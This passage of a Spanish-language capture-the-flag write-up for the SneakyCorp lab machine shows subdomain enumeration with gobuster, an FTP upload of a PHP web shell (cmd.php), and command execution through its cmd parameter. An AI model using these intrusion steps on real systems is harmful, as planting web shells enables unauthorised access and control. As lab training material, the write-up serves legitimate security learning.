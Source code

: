 El servicio nos reporta un codigo de estado `400` lo que corresponde a que el archivo no existe...


Pero dado a que existe un directorio `dev` podemos pensar que puede ser un posible subdominio, asi que usaremos `gobuster` para tratar de enumerar posibles subdominios validos existentes y usaremos el diccionario `subdomains-top1million-5000.txt` del repositorio de `seclists`

* [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
* [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)


```bash
❯ gobuster vhost -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://sneakycorp.htb/ -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://sneakycorp.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/04/08 23:21:48 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.sneakycorp.htb (Status: 200) [Size: 13742]
                                                     
===============================================================
2023/04/08 23:21:58 Finished
===============================================================
```

Pues `gobuster` nos reporta que el subdominio es valido, lo que quiere decir que el archivo que subimos antes existe, pero bajo ese subdominio.


Procedemos a subir nuevamente el archivo ya que a intervalos de tiempo nos lo borra

```bash
ftp> put cmd.php
local: cmd.php remote: cmd.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
69 bytes sent in 0.00 secs (990.9237 kB/s)
ftp>
```

Volvemos a visitar la `url` esta vez apuntando al subdominio y al archivo subido no sin antes agregar el subdominio a nuestro `/etc/hosts`

```bash
❯ echo "10.10.10.197 dev.sneakycorp.htb" >> /etc/hosts
```

Esta vez si podemos apuntar al archivo `cmd.php` y con el parametro `cmd` tal y como lo habiamos especificado, podemos ejecutar comandos.
